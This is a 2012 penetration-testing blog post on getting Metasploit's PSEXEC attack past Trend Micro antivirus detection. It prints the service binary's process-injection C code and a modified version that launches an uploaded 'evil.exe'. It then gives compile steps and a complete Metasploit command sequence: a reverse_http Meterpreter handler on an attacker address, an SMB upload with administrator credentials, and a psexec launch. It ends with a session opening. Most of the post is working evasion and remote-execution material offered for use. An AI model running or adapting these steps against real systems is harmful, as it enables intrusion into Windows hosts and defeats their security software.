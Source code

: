 ---
author: mubix
comments: true
date: 2012-07-05 03:44:59+00:00
layout: post
title: Bypassing Trend Micro's Service Protection
categories:
- metasploit
- trendmicro
---

[@jabjorkhaug](http://twitter.com/jabjorkhaug) posed the following question on Twitter today:

![](/images/postimages/201207_trendmicro_1.png)

I figured I could solve this and it would be an interesting challenge. Here is what it gets detected as:

![](/images/postimages/201207_trendmicro_2.png)

The service binary that is used as part of PSEXEC is located here:

MSF Directory/data/templates/src/pe/exe/service/service.c

The important part to look at starts at line 57:

```cpp
#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define PAYLOAD_SIZE	8192

char cServiceName[32] = "SERVICENAME";

char bPayload[PAYLOAD_SIZE] = "PAYLOAD:";

SERVICE_STATUS ss;

SERVICE_STATUS_HANDLE hStatus = NULL;

/*
 *
 */
BOOL ServiceHandler( DWORD dwControl )
{
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN )
	{
		ss.dwWin32ExitCode = 0;
		ss.dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &ss );
}

/*
 *
 */
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors )
{
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID lpPayload = NULL;

	ZeroMemory( &ss, sizeof(SERVICE_STATUS) );
	ZeroMemory( &si, sizeof(STARTUPINFO) );
	ZeroMemory( &pi, sizeof(PROCESS_INFORMATION) );

	si.cb = sizeof(STARTUPINFO);

	ss.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;

	ss.dwCurrentState = SERVICE_START_PENDING;

	ss.dwControlsAccepted = SERVICE_ACCEPT_STOP|SERVICE_ACCEPT_SHUTDOWN;

	hStatus = RegisterServiceCtrlHandler( (LPCSTR)&cServiceName, (LPHANDLER_FUNCTION)ServiceHandler );
  
	if ( hStatus )
	{
		ss.dwCurrentState = SERVICE_RUNNING;

		SetServiceStatus( hStatus, &ss );

		if( CreateProcess( NULL, "rundll32.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi ) )
		{
			Context.ContextFlags = CONTEXT_FULL;
		  
			GetThreadContext( pi.hThread, &Context );
		  
			lpPayload = VirtualAllocEx( pi.hProcess, NULL, PAYLOAD_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( lpPayload )
			{
				WriteProcessMemory( pi.hProcess, lpPayload, &bPayload, PAYLOAD_SIZE, NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)lpPayload;
#else
				Context.Eip = (DWORD)lpPayload;
#endif
				SetThreadContext( pi.hThread, &Context );
			}

			ResumeThread( pi.hThread );
			
			CloseHandle( pi.hThread );
		  
			CloseHandle( pi.hProcess );
		}
		
		ServiceHandler( SERVICE_CONTROL_STOP );
		
		ExitProcess( 0 );
	}
}

/*
 *
 */
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow )
{
	SERVICE_TABLE_ENTRY st[] = 
    { 
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain }, 
        { NULL, NULL } 
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}

```

It's injecting our payload into the service binary and tossing our payload into "rundll32.exe" at run time on the victim (side note: you can change which bin it goes into ;). Lets change this so it doesn't do any injection and just executes a binary. That removes the 'injection' piece and hopefully lets us get our shell. We are loosing a bit of stealth because instead of just one (the service binary) we are writing two binaries.

To make this change you replace the above with just this:

```cpp
if( CreateProcess( NULL, "C:\evil.exe", NULL, NULL, FALSE, DETACHED_PROCESS, NULL, NULL, &si, &pi ) )
{
	CloseHandle( pi.hProcess );
}
```

Compiling this on OSX using mingw is very easy and is very similar on Ubuntu if you have mingw installed:

```
i386-mingw32-gcc -o service.exe service.c 
```

Then just copy it to replace the current one:

```
cp service.exe ../../../../template_x86_windows_svc.exe 
```

No other changes are needed. Only problem is, how do we get the "evil.exe" up onto the box for it to execute? That's where the auxiliary module "auxiliary/admin/smb/upload_file" comes in :-) I built a resource file to demo the timeline of getting execution with this new service binary (broken up with comments to explain, _remove the comments for it to work_):

Start Multi Handler

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 172.16.195.1
set LPORT 80
set ExitOnSession false
exploit -j -z
```

Upload file to evil.exe on the C$ share (C$ is default for this module so no reason to set it)

```
use auxiliary/admin/smb/upload_file
set LPATH evil.exe
set RPATH evil.exe
set RHOST 172.16.195.155
set SMBUser Administrator
set SMBPass Password1234!
run
```

Execute PSEXEC using the new service binary that simply executes

```
use exploit/windows/smb/psexec
set RHOST 172.16.195.155
set SMBUser Administrator
set SMBPass Password1234!
set DisablePayloadHandler true
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 172.16.195.1
set LPORT 80
exploit -j -z
```

The passwords could have just as easily been hashes, and the end result is:

Well I can't really show you that nothing was detected… so I guess you just have to believe me when I say:

```
 [*] Meterpreter session 2 opened (172.16.195.1:80 -> 172.16.195.155:49169) at Wed Jul 04 16:02:23 -0400 2012
```

w00t!
